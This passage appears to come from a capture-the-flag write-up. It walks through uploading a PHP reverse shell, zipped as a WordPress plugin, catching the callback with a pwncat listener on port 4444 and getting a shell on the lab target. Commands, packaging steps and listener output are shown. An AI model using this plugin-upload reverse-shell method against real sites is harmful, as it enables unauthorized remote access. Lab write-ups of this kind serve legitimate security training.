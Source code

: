 Don’t forget to complete the following fields: `ATTACKER_IP`, `PORT`.

Next, we set up our `pwncat` listener to get a clean and upgraded reverse shell.

**Note: You can also use `netcat` and upgrade it yourself using `netcat` and the following link: [Upgrade a reverse shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). However, personally, I prefer using `pwncat`.**

```bash
pwncat -lp 4444
[12:50:28] Welcome to pwncat 🐈!                                                                       __main__.py:164
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

After that, we prepare our zip file as it must follow the following structure:

```
php-reverse-shell/
└── php-reverse-shell.php # Malicious file
```

We can do that using the following commands:

```bash
mkdir php-reverse-shell
mv php-reverse-shell.php php-reverse-shell/
zip -r php-reverse-shell.zip php-reverse-shell/
ls
fsocity.dic fsocity_uniq.dic php-reverse-shell php-reverse-shell.zip
```

Now we have our zip file; we can try to upload it as a plugin.

<img src="./screenshots/5.png" width="80%">

It seems our file was successfully uploaded. Perfect!

Click on **Activate Plugin**.

```bash
pwncat -lp 4444
[12:50:28] Welcome to pwncat 🐈!                                                                       __main__.py:164
[13:13:44] received connection from 10.10.135.61:40554                                                      bind.py:84
[13:13:46] 10.10.135.61:40554: registered new host w/ db                                                manager.py:957
(local) pwncat$ # Use CTRL + D to interact with the target machine
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$
```
